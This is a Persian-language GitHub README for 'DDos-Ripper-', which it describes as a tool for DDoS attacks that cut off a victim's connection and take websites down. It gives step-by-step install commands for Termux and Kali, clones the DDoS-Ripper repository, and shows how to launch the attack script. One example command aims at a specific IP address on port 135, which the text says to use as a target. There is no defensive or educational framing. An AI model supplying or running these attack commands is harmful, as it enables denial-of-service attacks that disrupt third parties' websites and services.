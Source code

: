 # DDos-Ripper-


![Screenshot_۲۰۲۳۱۱۰۹_۱۹۰۳۴۷_Termux](https://github.com/MRAvarvokiranshare/DDos-Ripper-/assets/146922434/d50c8c1d-95ce-4a86-8637-a7b58c756a8e)



یک ابزار برای حملات دیداس می‌باشد که می‌توانند داده های قربانی را قطع و وبسایت را از کار بیندازد 


نصب برای کالی لینوکس و ترموکس[💻☕]

1 pkg install git -y


2 pkg install python -y


3 pkg install python3 -y


4 git clone https://github.com/palahsu/DDoS-Ripper.git


5 cd DDoS-Ripper



6 ls



7 python3 DRipper.py


برای اجرا  و راهنمایی دیداس ☕💻


python3 DRipper.py -s [ip Address] -t 135



برای مثال از این ip استفاده کنید 


python3 DRipper.py -s 79.175.190.174 -t 135





![Screenshot_۲۰۲۳۱۱۰۹_۱۹۰۳۳۰_Termux](https://github.com/MRAvarvokiranshare/DDos-Ripper-/assets/146922434/f658566a-6a1d-4b2e-9a7b-451b7db26fcb)




#_مستر_اواروک_ایرانشهری[🖤🕯️] 
